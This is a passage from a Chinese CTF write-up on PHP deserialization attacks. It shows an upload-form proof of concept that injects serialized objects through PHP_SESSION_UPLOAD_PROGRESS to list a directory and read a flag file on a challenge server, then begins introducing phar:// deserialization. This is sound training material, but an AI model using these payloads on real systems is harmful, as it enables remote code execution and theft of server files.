 暂时没找到用php_serialize添加session的方法。但看到当get传入phpinfo时会实例化OowoO这个类并访问phpinfo()<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.loli.net/2018/09/07/5b927fb850e32.png)

这里参考Chybeta师傅的一个姿势：session.upload_progress.enabled为On。session.upload_progress.enabled本身作用不大，是用来检测一个文件上传的进度。但当一个文件上传时，同时POST一个与php.ini中session.upload_progress.name同名的变量时（session.upload_progress.name的变量值默认为PHP_SESSION_UPLOAD_PROGRESS），PHP检测到这种同名请求会在$_SESSION中添加一条数据。我们由此来设置session。

构造上传的表单poc，列出当前目录:

```
&lt;form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data"&gt;
    &lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="|O:5:"OowoO":1:`{`s:4:"mdzz";s:26:"print_r(scandir(__dir__));";`}`" /&gt;
    &lt;input type="file" name="file" /&gt;
    &lt;input type="submit" /&gt;
&lt;/form&gt;
```

通过phpinfo页面查看当前路径`_SERVER["SCRIPT_FILENAME"]`<br>[![](https://i.loli.net/2018/09/07/5b927fb844eb0.png)](https://i.loli.net/2018/09/07/5b927fb844eb0.png)

读文件就行

```
|O:5:"OowoO":1:`{`s:4:"mdzz";s:88:"print_r(file_get_contents(/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php));";`}`
```

得到flag

```
CTF`{`4d96e37f4be998c50aa586de4ada354a`}`
```



## phar伪协议触发php反序列化

最近Black Hat比较热的一个议题：It’s a PHP unserialization vulnerability Jim, but not as we know it。参考了创宇的文章，这里笔者把它作为php反序列化的最后一个模块，希望日后能在以上的几种反序列化之外拓宽新的思路。

### <a class="reference-link" name="phar://%E5%8D%8F%E8%AE%AE"></a>phar://协议

可以将多个文件归入一个本地文件夹，也可以包含一个文件

### <a class="reference-link" name="phar%E6%96%87%E4%BB%B6"></a>phar文件

PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发。所有PHAR文件都使用.phar作为文件扩展名，PHAR格式的归档需要使用自己写的PHP代码。

### <a class="reference-link" name="phar%E6%96%87%E4%BB%B6%E7%BB%93%E6%9E%84"></a>phar文件结构
